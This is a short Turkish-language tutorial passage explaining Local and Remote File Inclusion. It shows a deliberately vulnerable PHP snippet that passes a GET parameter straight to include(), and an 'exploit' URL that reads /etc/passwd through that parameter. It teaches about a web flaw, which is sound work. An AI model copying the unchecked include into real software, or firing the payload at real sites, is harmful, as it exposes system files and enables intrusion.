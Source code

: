 🟡 3. Local File Inclusion (LFI) & Remote File Inclusion (RFI)
Açıklama:

LFI: Sunucudaki yerel dosyaları okumaya yarar.

RFI: Uzak sunucudan kötü amaçlı dosya çalıştırmaya izin verir.

```
<?php
// Sayfa parametresini al
$page = $_GET['page'] ?? 'home.php';

// Güvenlik kontrolü yok, doğrudan dosya çağırıyor
include($page);
?>
```

### exploit
```
http://example.com/index.php?page=/etc/passwd
```
